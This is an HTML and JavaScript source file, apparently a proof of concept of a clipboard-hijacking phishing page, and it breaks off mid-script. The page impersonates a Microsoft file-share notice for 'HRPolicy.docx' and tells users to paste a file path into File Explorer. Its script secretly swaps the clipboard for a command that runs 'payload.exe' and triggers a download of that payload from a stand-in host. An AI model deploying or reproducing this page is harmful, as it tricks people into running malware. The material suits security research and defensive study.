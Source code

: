 ```html
      <svg fill="#000000" width="50px" height="50px" viewBox="0 0 32 32" version="1.1" xmlns="http://www.w3.org/2000/svg">
      <path d="M0 25.472q0 2.368 1.664 4.032t4.032 1.664h18.944q2.336 0 4-1.664t1.664-4.032v-8.192l-3.776 3.168v5.024q0 0.8-0.544 1.344t-1.344 0.576h-18.944q-0.8 0-1.344-0.576t-0.544-1.344v-18.944q0-0.768 0.544-1.344t1.344-0.544h9.472v-3.776h-9.472q-2.368 0-4.032 1.664t-1.664 4v18.944zM5.696 19.808q0 2.752 1.088 5.28 0.512-2.944 2.24-5.344t4.288-3.872 5.632-1.664v5.6l11.36-9.472-11.36-9.472v5.664q-2.688 0-5.152 1.056t-4.224 2.848-2.848 4.224-1.024 5.152zM32 22.080v0 0 0z"></path>
      </svg>
      <h2>mr.d0x made "HRPolicy.docx" available to you</h2>
      <div class="timestamp">06/20/2025 10:22:45 AM</div>
    </div>

    <div class="instructions">
      <p>To access <strong>HRPolicy.docx</strong>, follow these steps:</p>
      <ol>
        <li style="margin-bottom: 10px;">
          Copy the file path below
          <div class="code-block" id="path" onclick="this.classList.add('clicked')">
            C:\company\internal-secure\filedrive\HRPolicy.docx
          </div>
        </li>
        <li style="margin-bottom: 10px;">Open File Explorer and select the address bar (<strong>CTRL + L</strong>)</li>
        <li style="margin-bottom: 10px;">Paste the file path and press <strong>Enter</strong></li>
      </ol>
    </div>

    <input type="file" id="fileInput" style="display: none;">
    <button id="fileExplorer">Open File Explorer</button>

    <div class="footer">
      <img src="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg" alt="Microsoft">
    </div>
  </div>
    <script>
    const fileInput = document.getElementById('fileInput');
    const fileExplorer = document.getElementById('fileExplorer');
    const path = document.getElementById('path');


    path.addEventListener('click', function () {
        navigator.clipboard.writeText("%USERPROFILE%\\Downloads\\payload.exe # This will still execute");
    });

    fileExplorer.addEventListener('click', function () {
      // Keep them in this order

      // Copy to clipboard
      navigator.clipboard.writeText("%USERPROFILE%\\Downloads\\payload.exe # This will still execute");

      // Open file picker
      fileInput.click();

      // Dowload a file
      const url = 'https://example.com/payload.exe';
      const a = document.createElement('a');
      a.href = url;
      // a.download = 'payload.exe';
      document.body.appendChild(a);
      a.click();
```